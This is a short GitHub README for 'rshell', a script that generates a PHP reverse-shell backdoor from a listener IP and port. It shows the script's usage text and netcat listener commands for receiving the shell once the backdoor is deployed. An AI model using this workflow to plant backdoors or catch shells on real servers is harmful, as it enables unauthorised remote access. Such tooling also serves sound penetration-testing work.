

# rshell  

Generate php code for reverse shell backdoor. The generated code is based on [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) reverse php shell. 

## Usage : 

```shell  
./rshell.py -h

usage: rshell.py [-h] [-s FILE] IP_ADDRESS PORT

positional arguments:
  IP_ADDRESS            IP Address of Local Listener
  PORT                  Port number of Local Listener

optional arguments:
  -h, --help            show this help message and exit
  -s FILE, --file FILE  Save the generated payload into a file
```  

  

### Notes 

After deployment, you can start listener with nc 

```shell  
nc -lvvp PORT_NUMBER
```  

If netcat/nc shows below error 

```shell  
nc: getnameinfo: Temporary failure in name resolution
```  

Then add `-n` flag on the listener command.(-n:numeric-only IP addresses, no DNS) 

```shell  
nc -nlvvp PORT_NUMBER
```  
